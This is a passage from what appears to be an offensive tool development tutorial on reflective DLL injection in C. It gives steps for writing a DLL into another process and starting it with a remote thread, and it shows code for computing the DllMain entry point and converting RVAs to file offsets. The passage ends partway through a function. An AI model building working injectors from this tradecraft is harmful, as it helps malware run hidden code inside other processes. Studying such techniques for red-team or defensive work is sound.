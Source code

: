 ###

### Patching Import Address Table (IAT)

Now that we have the base address of the DLL (see above) we can patch the IAT.

{% embed url="https://www.rotta.rocks/offensive-tool-development/pe-tips-and-tricks/patching-iat" %}

### Fix Base Relocations

{% embed url="https://www.rotta.rocks/offensive-tool-development/pe-tips-and-tricks/patching-base-relocations" %}

### Fixing Memory Permissions

{% embed url="https://www.rotta.rocks/offensive-tool-development/pe-tips-and-tricks/fixing-memory-permissions" %}

### Calculate & Execute DllMain EntryPoint

```c
typedef BOOL(WINAPI* fnDllMain)(HINSTANCE, DWORD, LPVOID);

// Calculating ReflectiveDllLdr.dll's entry point address 
pDllMain = (fnDllMain)(pPeBaseAddress + PeHdrs.pImgNtHdrs->OptionalHeader.AddressOfEntryPoint)

```

## Building Injector

For reflective DLL injection we load the dll into a buffer, parse the exports for the "Special Reflective Loader" function address, and create a new thread. Opposed to the traditional LoadLibraryW.

Here are the steps:

* Load dll file into buffer
* Open process handle
* Parse export data directory for "Special Reflective Loader" offset.
* Write dll buffer to external process.
* Calculate external process base address buffer with the reflective function offset.
* Create a new thread at reflective function address.

{% code fullWidth="true" %}
```c
// Given an RVA, calculate it's offset by iterating through PE sections.
DWORD RVA2Offset(IN DWORD dwRVA, IN ULONG_PTR pBaseAddress) {

    PIMAGE_NT_HEADERS        pImgNtHdrs             = NULL;
    PIMAGE_SECTION_HEADER    pImgSectionHdr         = NULL;

    pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBaseAddress + ((PIMAGE_DOS_HEADER)pBaseAddress)->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
        return 0x00;

    pImgSectionHdr	= (PIMAGE_SECTION_HEADER)((PBYTE)&pImgNtHdrs->OptionalHeader + pImgNtHdrs->FileHeader.SizeOfOptionalHeader);

    // Iterates through the PE sections
    for (int i = 0; i < pImgNtHdrs->FileHeader.NumberOfSections; i++){

        // If the RVA is located inside the "i" PE section
        if (dwRVA >= pImgSectionHdr[i].VirtualAddress && dwRVA < (pImgSectionHdr[i].VirtualAddress + pImgSectionHdr[i].Misc.VirtualSize))
            // Calculate the delta and add it to the raw pointer
            return (dwRVA - pImgSectionHdr[i].VirtualAddress) + pImgSectionHdr[i].PointerToRawData;
    }
```